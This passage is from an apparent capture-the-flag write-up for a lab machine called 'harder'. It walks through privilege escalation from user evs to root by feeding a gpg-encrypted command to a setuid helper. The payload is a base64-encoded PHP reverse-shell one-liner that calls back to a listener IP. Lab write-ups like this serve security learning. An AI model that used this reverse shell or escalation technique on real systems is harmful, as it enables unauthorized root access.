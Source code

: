 So that was a quick way to priv-esc to another user :)

### evs
I logged in via ssh with the previously found password, and managed to get a tty (thank god) shell as the user evs.
Inside the home folder I found the user flag. Afterwards I decided that before I start manually enumerating, it's worth running linpeas again, in case there are files that evs has access to that www-data didn't.

Luckily my intuition was right:
```
╔══════════╣ Readable files belonging to root and readable by me but not world readable         
-rwsr-x---    1 root     evs          19960 Jul  6  2020 /usr/local/bin/execute-crypted
-rwxr-x---    1 root     evs            412 Jul  7  2020 /usr/local/bin/run-crypted.sh                                                                                                                  
-rwxr-x---    1 root     evs            641 Jul  7  2020 /var/backup/root@harder.local.pub
```
linpeas managed to relate the peculiar files I found before + a public key that might be related.

I started by checking the `run-crypted.sh` script, and found a manual on how to run commands as root:
```
[*] Current User: evs
[-] This program runs only commands which are encypted for root@harder.local using gpg.
[-] Create a file like this: echo -n whoami > command
[-] Encrypt the file and run the command: execute-crypted command.gpg
```

I followed this explanation with the key linpeas found for me:
```
harder:/dev/shm$ gpg --import /var/backup/root@harder.local.pub
gpg: key C91D6615944F6874: public key "Administrator <root@harder.local>" imported
gpg: Total number processed: 1
gpg:               imported: 1

harder:/dev/shm$ echo "cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjguODkuMjM3Iiw0NDQ0KTtzaGVsbF9leGVjKCIvYmluL3NoIDwmMyA+JjMgMj4mMyIpOyc=" | base64 -d > /tmp/command [Base64 php rev shell 1 liner]

harder:/dev/shm$ gpg --encrypt -r root --output /tmp/command.gpg /tmp/command

harder:/dev/shm$ execute-crypted /tmp/command.gpg
```

I then got a ping-back on my netcat listener as root. And gg.
```
id
uid=0(root) gid=1000(evs) groups=1000(evs)

cat /root/root.txt
[Redacted]
```

## Final words.
Overall, this machine was really fun and challenging. Especially the entry part. Combining the exposed git repo, as well as the insecure code, was just really rewarding.
Although the privesc could've been harder then just running linpeas, this machine was really fun.